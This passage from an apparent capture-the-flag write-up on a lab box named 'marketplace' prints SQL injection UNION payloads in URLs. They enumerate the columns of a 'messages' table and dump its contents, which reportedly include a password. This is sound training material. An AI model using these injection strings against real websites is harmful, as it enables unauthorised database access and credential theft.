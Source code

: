 Next, we tried to crack the hashes but were unable to do so.

![tried but failed](img/marketplace/tried%20brute%20force%20but%20failed.png)

> Tip: When in doubt, enumerate harder!

Remember the `messages` table in the `marketplace` database? We decided to revisit it and dump the contents in it.

To find the columns present: `http://10.10.189.139/admin?user=0%20UNION%20SELECT%201,group_concat(column_name),3,4%20FROM%20information_schema.columns%20WHERE%20table_name=%20%27messages%27`

![col present](img/marketplace/go%20to%20messages.png)

Now, we will dump the contents present in the message database.

To dump the contents: `http://10.10.189.139/admin?user=0%20UNION%20SELECT%201,group_concat(id,%20%27:%27,user_from,%20%27:%27,user_to,%20%27:%27,message_content,%20%27:%27,is_read,%20%27:%27,%20%27\n%27%20),3,4%20FROM%20messages`

![obtained msg](img/marketplace/messages%20contain%20password.png)
